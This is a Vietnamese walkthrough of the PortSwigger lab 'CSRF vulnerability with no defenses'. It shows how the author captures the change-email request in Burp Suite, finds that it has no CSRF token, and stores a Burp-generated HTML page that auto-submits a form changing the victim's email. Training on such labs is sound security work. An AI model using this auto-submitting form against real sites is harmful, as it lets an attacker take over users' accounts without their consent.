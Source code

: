 # CSRF vulnerability with no defenses

### Yêu cầu: Tạo thẻ HTML để tấn công CSRF thay đổi email của tài khoản người dùng

### Hướng làm: 

Đầu tiên, ta đăng nhập vào tài khoản mà đề bài đã cho `weiner:peter`

Tiếp đến chúng ta sẽ bắt request của chức năng đăng nhập bằng BurpSuite

![image](https://user-images.githubusercontent.com/72268643/157409274-bddd16d6-d281-41e0-b446-5b87df7e372e.png)

Sau khi gửi tới Repeater, ta thấy rằng việc thay đổi này chỉ yêu cầu mỗi param email chứ không có CSRF token để xác thực

![image](https://user-images.githubusercontent.com/72268643/157410346-4caf3deb-6af4-48ea-90b7-aaaebe3a5ad6.png)

Vậy nên ta đã có đủ điều kiện tấn công (thay đổi email, phiên user, không có param trống)

Chúng ta có thể sử dụng công cụ `Generate CSRF PoC` của BurpSuitePro để sinh ra 1 đoạn code HTML để upload luôn trên server

![image](https://user-images.githubusercontent.com/72268643/157411439-88742410-2c8c-402b-ac62-000486524e94.png)

Sau đó ta copy đoạn HTML ở dưới rồi gửi lên phía server nạn nhân

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://ace11f521f4b1b0fc0623988009700c5.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="victim&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

![image](https://user-images.githubusercontent.com/72268643/157412962-53524799-b782-47ee-a863-8419e3c3e21a.png)

Store và hoàn thành lab
